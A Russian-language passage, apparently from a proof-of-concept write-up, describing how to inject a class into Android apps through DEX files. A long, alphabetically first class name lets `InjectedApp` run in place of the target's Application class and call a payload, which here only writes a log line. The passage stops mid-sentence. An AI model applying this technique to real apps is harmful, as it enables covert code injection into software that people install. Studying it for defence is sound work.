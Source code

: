 Для подготовки внедряемых файлов, был создан проект в Android Studio, с тремя классами.

Класс `InjectedApp`. Его полное имя:

`aaaaaaaa.aaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaa.InjectedApp`

Это имя должно удовлетворять двум правилам:

1. Оно должно быть длиннее любого имени Application класса любого целевого приложения

2. Оно должно быть выше в алфавитном порядке любого имени Application класса любого приложения

Класс `InjectedApp`, который будет выполняться вместо Application class целевого приложения:

```java
package aaaaaaaa.aaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaa;
import aaaaaaaaaaaa.payload;
import z.z.z;

public class InjectedApp extends z {

    public InjectedApp() {
        super();
        payload p = new payload();
        p.executePayload();
    }
}
```

Задача класса начать выполнение вредоносного кода, который находится в другом DEX:

```java
        payload p = new payload();
        p.executePayload();
```

Класс `payload` содержит вредоносный код:

```java
package aaaaaaaaaaaa;

import android.util.Log;

public class payload {

    public void executePayload() {
            Log.i("HELL", "Hello, I'm a malicious payload");
    }
}
```

Полное имя класса должно удовлетворять следующему правилу:

1. Оно должно быть выше по алфавиту любого имени класса Application любого приложения 

Для внедрения произвольного вредоносного кода необходимо создать DEX файл, который должен соблюдать условия:

1. Содержать класс с именем:
